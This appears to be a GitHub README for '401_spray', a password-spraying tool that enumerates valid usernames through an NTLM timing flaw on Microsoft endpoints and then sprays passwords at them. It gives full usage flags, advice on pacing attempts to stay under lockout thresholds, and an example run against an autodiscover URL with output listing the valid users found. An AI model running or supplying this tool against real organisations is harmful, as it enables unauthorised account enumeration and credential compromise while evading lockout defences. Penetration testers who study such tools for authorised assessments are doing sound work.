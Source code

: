 # 401_spray
password spraying tool that will check for username validation using the Microsoft CAS timing vulnerability found on endpoints using NTLM authentication. Original code can be found here: https://github.com/fang0654/401_spraying. 
The program follows a lot of the "logic" used in https://github.com/dafthack/MailSniper to determine which usernames are valid.

Simply added the following abilities to the original code:
1) to check your username list for valid entries.
2) Obtain the internal domain name tied to the NTLM Authentication using the WWW-Authenticate Header (Only tried this with one target, your milage may vary).
3) Runs the password spraying attack using usernames identified as valid.
4) Seperates the password spraying attack and username validation using the -v and -c flags. 
5) Added some additional flag options so the user isn't forced to use --threads for example (-t can be used).

Why the timing attack? If you have a list of 250,000 potnetial users and only 1000 of them are actually valid, why password spray against all 250,000. That's why timing attack. Thank you Microsoft for this glorious "Feature".

Why make the tool at all? Thanks to how the NTLM Authentication challenge -> response works, we can't do the cheesy stuff like burp turbo intruder against these endpoints. This tool solves that problem.

```python
usage: 401_spray.py [-h] -u USERNAMES -p PASSWORDS [-d DOMAIN] -U URL [-a ATTEMPTS] [-i INTERVAL] [--authtype {ntlm,basic}] [--proxy PROXY] [-t THREADS] [-o OUTPUT] [--add_response] [-v] [-c]

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAMES, --usernames USERNAMES
                        List of usernames to attack
  -p PASSWORDS, --passwords PASSWORDS
                        List of passwords to try
  -d DOMAIN, --domain DOMAIN
                        Domain name to append. If not included, then domains will be assumed to be in username list.
  -U URL, --url URL     URL to authenticate against
  -a ATTEMPTS, --attempts ATTEMPTS
                        Number of attempts to try before sleeping. If your lockout policy is 5 attempts per 10 minutes, then set this to like 3
  -i INTERVAL, --interval INTERVAL
                        Number of minutes to sleep between attacks. If your lockout policy is per 10 minutes, set this to like 11
  --authtype {ntlm,basic}
                        Authentication type - basic or ntlm. Note: You can't use a proxy with NTLM
  --proxy PROXY         Proxy server to route traffic through
  -t THREADS, --threads THREADS
                        Number of threads
  -o OUTPUT, --output OUTPUT
                        File to write successful pairs to
  --add_response        Add response times to output
  -v, --validate_users  Validates the list of usernames. By default will also run password spraying attack.
  -c, --check_creds     Runs the password spraying attack
```

Example output:
```Python
./401_spray.py -v -U https://autodiscover.<target>/autodiscover/autodiscover.xml -p /users/bortiz/Documents/Projects/passwords.txt -u /users/bortiz/Documents/Projects/user_names.txt -t 50 -o /users/bortiz/Documents/Projects/valid_creds.txt -i 60 

New password spraying run
Spraying 1 passwords, then sleeping for 60.
URL: https://autodiscover.<target>/autodiscover/autodiscover.xml
[*] Performing incorrect Domain Test
[+] auth creds: random\aaaaaaz, time elapsed: 0:00:00.384964
[+] auth creds: anything1\bbbbbbz, time elapsed: 0:00:00.372382
[+] auth creds: bread_man\ccccccz, time elapsed: 0:00:04.997914
[*] Performing correct Username & Domain Test
[+] auth creds: domain\Guest, time elapsed: 0:00:00.373984
[+] auth creds: domain\Administrator, time elapsed: 0:00:00.374277
[+] auth creds: domain\krbtgt, time elapsed: 0:00:00.371279
[*] Performing incorrect Username Test
[+] auth creds: domain\aaaaaaz, time elapsed: 0:00:15.357264
[+] auth creds: domain\bbbbbbz, time elapsed: 0:00:10.670948
[+] auth creds: domain\ccccccz, time elapsed: 0:00:15.460272
[+] Avg time: 0:00:13.829495
[*] Threshold: 0:00:08.297697
[+] VALID USER FOUND: domain\user1, time elapsed: 0:00:00.522217
[+] VALID USER FOUND: domain\user2, time elapsed: 0:00:00.404065
[+] VALID USER FOUND: domain\user3, time elapsed: 0:00:00.430944
[+] VALID USER FOUND: domain\user4, time elapsed: 0:00:00.422542
[+] VALID USER FOUND: domain\user5, time elapsed: 0:00:00.411033
[+] VALID USER FOUND: domain\user6, time elapsed: 0:00:00.642477
```
